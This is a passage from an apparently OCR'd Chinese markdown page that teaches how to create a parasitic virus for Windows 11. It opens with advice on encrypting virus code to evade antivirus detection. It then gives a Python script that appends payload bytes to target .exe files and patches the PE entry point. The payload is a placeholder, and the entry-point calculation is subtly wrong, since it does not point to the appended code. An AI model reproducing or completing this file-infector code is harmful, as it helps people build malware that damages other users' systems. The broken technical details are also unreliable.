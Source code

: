 #### 6. **优化和隐藏**
   - 优化病毒代码，使其更难以被检测和清除。
   - 使用加密技术隐藏病毒代码，避免被杀毒软件检测到。



## 攻击示例
创建一个寄生型病毒（Parasitic Virus）来攻击Windows 11系统涉及对可执行文件（`.exe` 文件）的结构和操作系统的深入理解。与引导扇区病毒不同，寄生型病毒通常不会感染系统引导扇区，而是将自身代码附加到现有的可执行文件中，并在宿主程序运行时执行。以下是一个简化的示例，展示如何创建一个基本的寄生型病毒，该病毒将自身代码附加到目标Windows 11可执行文件的末尾，并修改入口点以执行病毒代码。

### 环境准备

1. **操作系统**: Windows 11（目标系统）
2. **工具**:
   - **Python**: 用于编写病毒脚本。
   - **PyInstaller**: 将Python脚本打包为可执行文件（可选）。
   - **虚拟机软件**: 如VirtualBox或VMware，用于测试。

### 寄生型病毒代码（Python 示例）

以下是一个简单的Python脚本，演示如何创建一个寄生型病毒，该病毒将自身代码附加到目标 `.exe` 文件的末尾，并修改入口点以执行病毒代码。

```python
import sys
import os
import struct

# 病毒代码（以十六进制表示）
VIRUS_CODE = b'\xE8\x00\x00\x00\x00'  # 示例：调用下一条指令（占位符）

def get_virus_length():
    return len(VIRUS_CODE)

def append_virus_to_file(target_file):
    # 检查文件是否为PE格式
    with open(target_file, 'rb') as f:
        pe_header = f.read(2)
        if pe_header != b'MZ':
            print(f"{target_file} 不是有效的PE文件。")
            return

    # 打开目标文件并附加病毒代码
    with open(target_file, 'ab') as f:
        f.write(VIRUS_CODE)
        print(f"已将病毒代码附加到 {target_file}。")

    # 修改入口点（假设入口点地址为0x00400000 + 文件大小）
    with open(target_file, 'rb+') as f:
        f.seek(0x3c)  # PE头偏移量
        pe_offset = struct.unpack('<I', f.read(4))[0]
        f.seek(pe_offset + 0x28)  # 入口点地址偏移量
        original_entry_point = struct.unpack('<I', f.read(4))[0]
        new_entry_point = original_entry_point + get_virus_length()
        f.seek(pe_offset + 0x28)
        f.write(struct.pack('<I', new_entry_point))
        print(f"已将入口点修改为 {hex(new_entry_point)}。")

def infect(target_file):
    if not os.path.isfile(target_file):
        print(f"{target_file} 不存在。")
        return

    append_virus_to_file(target_file)
```